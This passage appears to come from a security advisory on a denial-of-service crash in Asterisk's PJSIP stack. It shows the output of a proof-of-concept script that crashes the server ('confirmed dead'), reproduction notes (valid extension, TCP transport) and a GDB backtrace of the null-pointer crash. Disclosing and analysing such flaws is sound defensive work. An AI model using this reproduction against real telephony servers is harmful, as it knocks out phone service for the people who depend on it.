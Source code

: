 The output from the tool should show the following:

```
> python test.py
Authorization: Digest username="3000",realm="asterisk",nonce="1516728889/07e2e34fbd45ed7f6b1bca0d2bde50ae",uri="sip:127.0.0.1:5061",response="a2b7e2bfa722730b64787664db474f2a",algorithm=md5

EOF occurred in violation of protocol (_ssl.c:590)
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
[Errno 111] Connection refused
getting close!
confirmed dead
```

Notes:

- authentication may be required
- the destination SIP address should match a valid extension in the dialplan
- similar code to the above can be used to reproduce the issue on TCP transport


### GDB backtrace result

```
gdb --args /opt/asterisk/sbin/asterisk -fcvvv

Thread 25 "asterisk" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff030a700 (LWP 133)]
ast_sip_failover_request (tdata=0x0) at res_pjsip.c:3956
3956            if (!tdata->dest_info.addr.count || (tdata->dest_info.cur_addr == tdata->dest_info.addr.count - 1)) {
(gdb) bt
#0  ast_sip_failover_request (tdata=0x0) at res_pjsip.c:3956
#1  0x00007ffff1a8dbb1 in check_request_status (inv=inv@entry=0x7fff9910bac8, e=0x7ffff0308ae0) at res_pjsip_session.c:3371
#2  0x00007ffff1a8dc83 in session_inv_on_state_changed (inv=0x7fff9910bac8, e=0x7ffff0308ae0) at res_pjsip_session.c:3455
#3  0x00007ffff7848217 in inv_set_state (state=PJSIP_INV_STATE_DISCONNECTED, e=0x7ffff0308ae0, inv=0x7fff9910bac8) at ../src/pjsip-ua/sip_inv.c:317
#4  inv_on_state_null (inv=0x7fff9910bac8, e=0x7ffff0308ae0) at ../src/pjsip-ua/sip_inv.c:3890
#5  0x00007ffff7841a77 in mod_inv_on_tsx_state (tsx=0x7fff99116408, e=0x7ffff0308ae0) at ../src/pjsip-ua/sip_inv.c:717
#6  0x00007ffff788299d in pjsip_dlg_on_tsx_state (dlg=0x7fff990eccc8, tsx=0x7fff99116408, e=0x7ffff0308ae0) at ../src/pjsip/sip_dialog.c:2066
#7  0x00007ffff787b513 in tsx_set_state (tsx=0x7fff99116408, state=PJSIP_TSX_STATE_TERMINATED, event_src_type=PJSIP_EVENT_TRANSPORT_ERROR, event_src=0x7fff9910fda8, flag=0)
    at ../src/pjsip/sip_transaction.c:1267
#8  0x00007ffff787cfec in send_msg_callback (send_state=0x7fff9918d2f0, sent=-171064, cont=0x7ffff0308c04) at ../src/pjsip/sip_transaction.c:1970
```